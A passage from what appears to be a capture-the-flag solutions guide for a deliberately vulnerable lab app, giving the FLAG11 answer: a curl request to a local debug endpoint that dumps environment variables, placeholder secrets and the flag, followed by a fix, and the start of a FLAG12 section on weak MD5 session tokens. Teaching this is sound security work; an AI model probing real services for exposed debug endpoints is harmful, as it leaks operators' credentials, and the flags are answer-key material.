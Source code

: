 ### What You'll Learn
- Finding debug endpoints
- Understanding environment variable exposure
- Recognizing development features in production

### Solution

Step 1: Access the debug endpoint
```bash
curl http://localhost:8000/api/debug | jq
```

Expected Response:
```json
{
  "headers": { ... },
  "env_vars": {
    "PATH": "/usr/local/bin:...",
    "DEBUG": "true",
    "SECRET_KEY": "super-secret-key-for-ctf",
    "AWS_ACCESS_KEY_ID": "test",
    "AWS_SECRET_ACCESS_KEY": "test",
    "FLAG11_DEBUG": "flag{debug_in_prod}"
  },
  "debug_info": {
    "flag": "flag{debug_in_prod}",
    "message": "Debug mode exposes sensitive information",
    "severity": "critical"
  }
}
```

Flag: `flag{debug_in_prod}`

### Why This is Vulnerable
- Debug endpoint enabled in production
- Exposes all environment variables including secrets
- No authentication required
- Fix: Disable debug endpoints in production, use environment-specific configs

---

## FLAG12: Weak Session Tokens (150 points) - Medium

### Vulnerability
Cryptographic Failure - Predictable Tokens

### What You'll Learn
- Exploiting weak session token generation
- Understanding cryptographic token requirements
- Recognizing MD5 security issues
